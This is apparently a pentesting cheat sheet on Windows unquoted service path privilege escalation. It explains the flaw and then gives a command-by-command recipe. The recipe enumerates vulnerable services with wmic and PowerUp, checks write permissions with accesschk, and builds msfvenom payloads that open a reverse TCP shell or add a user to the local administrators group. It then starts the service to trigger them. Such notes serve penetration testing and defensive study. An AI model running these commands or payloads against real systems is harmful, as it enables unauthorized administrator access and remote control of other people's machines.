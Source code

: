 ## Description

Unquoted service paths can become dangerous when a service (Executed by **SYSTEM**) is configured with a path like:
```
C:\Program Files\unquoted service.exe
```


The system will attempt to execute the first valid .exe file it finds in this order:  
1. C:\Program.exe  
2. C:\Program Files.exe  
3. C:\Program Files\unquoted.exe  
4. C:\Program Files\unquoted service.exe  

If an attacker has write permissions to any of the directories listed above, they can place a malicious executable with a matching name. When the service starts,it can result in privilege escalation.

## How to ?

List services with spaces and missing quotes in binary path
```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
List unquoted services with `PowerUp.ps1`
```
powershell -ep bypass
. .\PowerUp.ps1
Get-UnquotedService
```
Check permissions to the service
```
sc qc <SERVICE>
```
Check permissions to the directories
```
accesschk.exe /accepteula -uwdq <PATH>
```
`-u`: Check user permissions  
`-w`: Check write permissions  
`-d`: Display information about the directory  
`-q`: Suppresses output if there are no issues  

Create a malicious executable and upload it to a writable directory
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<TARGET_IP> LPORT=<PORT> -f exe -o rev.exe

msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
```
Start the service
```
net start <SERVICE>
start-service <SERVICE>
sc start <SERVICE>
```